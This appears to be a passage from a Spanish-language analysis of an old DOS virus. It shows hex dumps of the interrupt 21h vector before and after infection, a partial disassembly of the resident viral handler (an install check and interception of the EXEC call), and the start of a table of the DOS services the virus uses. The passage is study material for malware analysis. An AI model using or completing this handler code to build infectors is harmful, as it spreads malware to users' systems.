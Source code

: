 **Antes de la infección**
Hex dump de los 4 bytes del vector 21h:

<pre>
-D 0000:0084 L4                                  
0000:0080              E1 20 04 11
</pre>

El handler original de 21h se encuentra en 1104:20E1.

**Después de la infección**
Hex dump de los 4 bytes del vector 21h:

<pre>
-D 0000:0084 L4
0000:0080              76 00 AD 9F
</pre>

El vector ya no es el mismo. 

Desensamblado del handler referenciado por el nuevo vector:

<pre>
-U 9FAD:0076 
9FAD:0076 3DCDAB       CMP    AX,ABCD     ; inicio del handler viral
9FAD:0079 7408         JZ     0083                               
9FAD:007B 3D004B       CMP    AX,4B00                            
9FAD:007E 7407         JZ     0087                               
9FAD:0080 E99400       JMP    0117                               
9FAD:0083 B89A02       MOV    AX,029A                            
9FAD:0086 CF           IRET                                    
9FAD:0087 9C           PUSHF                                     
9FAD:0088 50           PUSH   AX                                 
9FAD:0089 53           PUSH   BX                                 
9FAD:008A 51           PUSH   CX                                 
9FAD:008B 52           PUSH   DX                                 
9FAD:008C 56           PUSH   SI                                 
9FAD:008D 1E           PUSH   DS                                 
9FAD:008E 8BF2         MOV    SI,DX                              
9FAD:0090 AC           LODSB                                     
9FAD:0091 0AC0         OR     AL,AL                              
9FAD:0093 7413         JZ     00A8                               
9FAD:0095 3C2E         CMP    AL,2E                                      
</pre>

## API utilizada
Se utilizan 10 servicios de la DOS API mediante la interrupción de software 21h.

<div class="table-responsive">
<table class="table" >
   <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>   
  <tr>
    <td>Terminar programa</td> 
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>   
    <td>1+</td> 
  </tr>